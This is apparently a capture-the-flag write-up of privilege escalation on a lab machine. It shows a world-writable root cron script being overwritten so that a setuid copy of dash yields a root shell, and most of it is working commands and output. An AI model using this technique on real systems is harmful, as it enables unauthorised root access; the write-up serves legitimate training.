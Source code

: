 **Initial Foothold Obtained**

## Privilege Escalation

### Cronjobs

Check all cronjobs in the machine.

```sh
www-data@red:/$ ls -lsaht /etc/cron.*
ls -lsaht /etc/cron.*
/etc/cron.d:
total 32K
 12K drwxr-xr-x 100 root root  12K Jun  9  2021 ..
4.0K drwxr-xr-x   2 root root 4.0K Jun  3  2016 .
4.0K -rw-r--r--   1 root root   56 Jun  3  2016 logrotate
4.0K -rw-r--r--   1 root root  102 Jun  3  2016 .placeholder
4.0K -rw-r--r--   1 root root  670 Mar  1  2016 php
4.0K -rw-r--r--   1 root root  589 Jul 16  2014 mdadm
```

Contents of `logrotate` file.

```sh
www-data@red:/etc/cron.d$ cat logrotate
cat logrotate
*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
www-data@red:/etc/cron.d$ ls -al /usr/local/sbin/cron-logrotate.sh
ls -al /usr/local/sbin/cron-logrotate.sh
-rwxrwxrwx 1 root root 51 Jun  3  2016 /usr/local/sbin/cron-logrotate.sh
www-data@red:/etc/cron.d$ 
```

And the file permission says we can write to it. Write the below exploit to the `cron-logrotate.sh`.

```sh
www-data@red:/usr/local/sbin$ echo "cp /bin/dash /tmp/dash; chmod u+s /tmp/dash;" > /usr/local/sbin/cron-logrotate.sh
</dash; chmod u+s /tmp/dash;" > /usr/local/sbin/cron-logrotate.sh 
```

So when the cron job run the script as root user the binry `dash` will be copied to the `/tmp` folder and `u+s` permissions are applied. So then we can run the binary as the owner which is root and that will give us root shell.

```sh
www-data@red:/tmp$ ls -al
-rwsr-xr-x  1 root root 173644 Oct  2 06:40 dash
```

The exploit worked and run the binary as follows to obtain root.

```sh
www-data@red:/tmp$ ./dash -p
./dash -p
whoami
root
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.3$ 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).